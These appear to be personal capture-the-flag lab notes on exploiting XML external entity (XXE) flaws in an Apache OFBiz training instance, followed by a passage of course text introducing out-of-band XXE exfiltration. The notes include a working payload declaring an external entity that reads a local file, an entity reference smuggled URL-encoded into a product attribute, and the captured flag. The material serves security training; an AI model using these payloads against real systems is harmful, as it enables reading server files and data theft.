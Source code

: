 ```XML
<createdStamp>2021-06-04 08:15:49</createdStamp>
<description>Check error log</description>
<longDescription>XXE</longDescription>
</Product>
</entity-engine-xml>
```
I would keep getting this error:
![[Pasted image 20241021200339.png]]
the `xxe` wasnt able to be processed - originally I thought that this wasnt the field. Eventually I thought about `URL-Encoding` the field with this script
- `URL-Encoded` `primaryProductCategoryId="%26xxe;"` 
```XML
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY xxe SYSTEM "file:///root/error.txt">
]>
<entity-engine-xml>
<Product createdTxStamp="2021-06-04 08:16:48.983" internalName="Giant Widget variant explosion" isVariant="N" isVirtual="Y" largeImageUrl="/images/products/WG-9943/large.png" lastUpdatedStamp="2021-06-04 08:16:18.521" lastUpdatedTxStamp="2021-06-04 08:16:18.258" primaryProductCategoryId="%26xxe;" productId="XXE-0001" productName="Giant Widget with variant explosion" productTypeId="FINISHED_GOOD" productWeight="22.000000" quantityIncluded="10.000000" smallImageUrl="/images/products/WG-9943/small.png" virtualVariantMethodEnum="VV_VARIANTTREE">
<createdStamp>2021-06-04 08:15:49</createdStamp>
<description>Check error log</description>
<longDescription>XXE</longDescription>
</Product>
</entity-engine-xml>
```
upon submission of we can see that there is an `SQL` error that occurs in burp and on the main screen.
![[Pasted image 20241021200916.png]]
![[Pasted image 20241021200957.png]]
But this doesn't reveal the flag, in order to reveal the flag we have to look for our `ProductID` name in catalog `XXE-0001`
`https://ofbiz:8443/catalog/control/EditProductContent?productId=XXE-0001`
![[Pasted image 20241021201102.png]]
Flag: `OS{IAmError}`



-----------

#### 10.4.5. Out-of-Band Exploitation

n situations where we cannot access the results of our XXE attack or obtain verbose error messages, we can attempt an out-of-band XXE attack. We previously mentioned that external entities can reference resources on other servers. An out-of-band attack leverages this functionality to exfiltrate data as part of the request that loads the external resource.

For this attack to work, we will need to create and host our own DTD file that contains two entities. We will need to use parameter entities because we need the entities to be processed within the DTD so that they can impact each other. Let's create a file named external.dtd with the following content.
